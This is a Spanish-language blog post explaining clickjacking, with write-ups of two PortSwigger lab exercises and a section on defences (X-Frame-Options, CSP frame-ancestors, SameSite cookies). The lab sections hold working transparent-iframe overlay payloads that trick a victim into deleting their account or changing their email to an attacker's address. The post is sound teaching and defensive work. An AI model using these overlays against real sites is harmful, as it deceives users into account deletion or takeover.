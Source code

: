 ```yaml
---
layout: post
title: ¿Qué es el Clickjacking?
description: Una explicación sobre el clickjacking con algunos ejemplos. 
tags: [ clickjacking , seguridad , portswigger, BurpSuite ]
---
```


# Indice
1. [Introducción](#introduction)

2. [¿De qué se trata?](#que)

3. [Ejemplo práctico #1](#lab1)

4. [Ejemplo práctico #2](#lab2)

5. [Cómo evitar el Clickjacking](#evitar)

6. [Cómo evitar el Clickjacking](#recursos)

# Introducción<a id="introduction"></a>
 
El otro día, realizando un pequeño test de reconocimiento en algunas webs con la herramienta [blue eye](https://github.com/BullsEye0/blue_eye) se me cruzó varias veces el término `clickjacking`. No era la primera vez que lo había visto, pero no tenía muy claro a qué se referiá exactamente y cuál era la diferencia con el `CSRF`. 

Así que decidí indagar un poco, y descubrí que este tipo de ataques han sido utilizado contra páginas como Twitter y Facebook, consiguiendo que las víctimas hagan likes de manera inconsciente o retuitearan contenido sin saberlo. Así que sin más, voy a tratar de explicar de qué se trata. 


# ¿De qué se trata?<a id="que"></a>

Imaginemos que visitamos una página afectada por un clickjacking, ya que hemos recibido un enlace en nuestro mail o alguien nos la ha pasado por Whatsapp. La página nos pedirá que hagamos click en algún botón y el simple hecho de haber hecho ese click ejecuta una acción maliciosa ( por ejemplo, nos roba las credenciales). La diferencia con el CSRF es básicamente que el usuario tiene que realizar una acción ( un click en un botón, por ejemplo). 

Generalmente los ataques de CSRF se protegen mediante un token: un token de sesión único y específico. Pero ¿qué ocurre si encima de una página normal con su token de sesión se despliega una capa con un botón? Que podemos ejecutar un ataque de clickjacking. Por tanto, cabe destacar que para hacer este tipo de ataques hay que modificar la hoja de estilos, añadiendo un `<iframe>`. Un ejemplo sería el siguiente:

````
<head>
	<style>
		#web_atacada {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}

		#web_maliciosa {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="web_maliciosa">
	{{ Contenido malicioso }}
	</div>
	<iframe id="web_atacada" src="https://vulnerable-website.com">
	</iframe>
</body>
````

# Ejemplo práctico #1 <a id="lab1"></a>

Una vez más voy a tirar de los [Labs de Portswigger](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected) que son tremendamente útiles y comprensibles para estos casos.

Empiezo con un lab básico: `Basic Clickjacking with CSRF token protection` en el que hay una página con un token CSRF. Para resolver el lab, hay que manipular el HTML de la página y engañar a un posible usuario para que borre su cuenta. 

Nuestras credenciales son: wiener:peter. 


Entro en la parte privada de la página con las credenciales y observo que en `my-account` hay un formulario con un botón "Delete Account" que hace un POST a "/my-account-delete" y lo hace con un token CSRF. Por tanto, hay que añadir una capa con un botón ( o un div que diga Click me en este caso ) para que la víctima borre su cuenta. Para ello, hay que ir a "Go to Exploit Server" y meter esto en la parte de Body:


````
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
        width: 100px;
       height: 20px;
       color: black;
    }

</style>
<div>
   Click me
</div>
<iframe src="https://.....web-security-academy.net/my-account"></iframe>

````

NOTA: En esta parte me he vuelto un poco loco con el CSS. Yo jugaba con las propiedades `width` y `height` con atributos de `100vw` y `100vh`. Pero hay que hacerlo con valores similares a los indicados (500px y 700px), de lo contrario el exploit no funciona.


En mi caso queda perfectamente ajustado con esos atributos en Google Chrome, pero es posible que haya que afinar un poco. Una vez ajustado, le damos a `Store` y luego `Deliver Exploit to Victim`.


# Ejemplo práctico #2 <a id="lab2"></a>

El siguiente ejemplo es parecido al anterior. Se trata de cambiar el email del usuario en este caso, en lugar de borrar el correo, tenemos que conseguir reemplazarlo por otro. 

Arranco Burpusite ya que en esta ocasión no se trata sólo de hacer un click, sino de ver qué ocurre cuando cambiamos el mail y qué es lo que mandamos en nuestra petición.

Me meto con mi usuario Wiener y contraseña Peter. Podemos ver que hay un formulario. Si inspeccionamos el código vemos que el nombre del input es `email`, así que podemos usar la técnica de inyectar parámetros en la url para rellenar campos de un formulario, tal y como explican en este [enlace](https://docs.machform.com/help/using-url-parameters-to-populate-form-fields).

Por lo demás, el código es prácticamente el mismo, añadiendo como ya he dicho el parámetro `email` a la url:


````
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
        width: 100px;
       height: 20px;
       color: black;
    }

</style>
<div>
   Click me
</div>
<iframe src="https://....web-security-academy.net/my-account?email=emailnuevo@attacker.com"></iframe>

````

# Cómo evitar el Clickjacking <a id="evitar"></a>

Como siempre, la [web de OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html) nos da varias soluciones para atajar este ataque. Primeramente, habría que añadir un header HTTP de tipo `X-Frame-Options` en el que se especifique el valor `DENY` ( a no ser que haya que por alguna razón tengamos que permitirlo, en ese caso `SAMEORIGIN` o bien `ALLOW-FROM`uri). IMPORTANTE: Habrá que especificar este header como HTTP Response Header. Si lo hacemos mediante un meta-tag (ejemplo `<meta http-equiv="X-Frame-Options" content="deny">`), no funcionará y podemos ser víctimas de un clickjacking.

La segunda opción sería utilizar Content-Security-Policy (CSP) con el atributo frame-ancestors. Por ejemplo `Content-Security-Policy: frame-ancestors 'none';`. Esta directiva se añade al HTTP response header para indicarle al navegador si puede mostrar una página dentro de un `<frame>` o un `<iframe>`.  Lo malo de este método es que no todos los navegadores soportan esta opción.

Otra opción es utilizar el atributo `SameSite` en nuestras Cookies, algo que ya se utiliza para prevenir ataques de Cross-Site Request Forgery pero que pueden ayudar en el Clickjacking también.

# Recursos <a id="recursos"></a>

 - https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html

 - https://www.invicti.com/blog/web-security/clickjacking-attacks/

 - https://book.hacktricks.xyz/pentesting-web/clickjacking


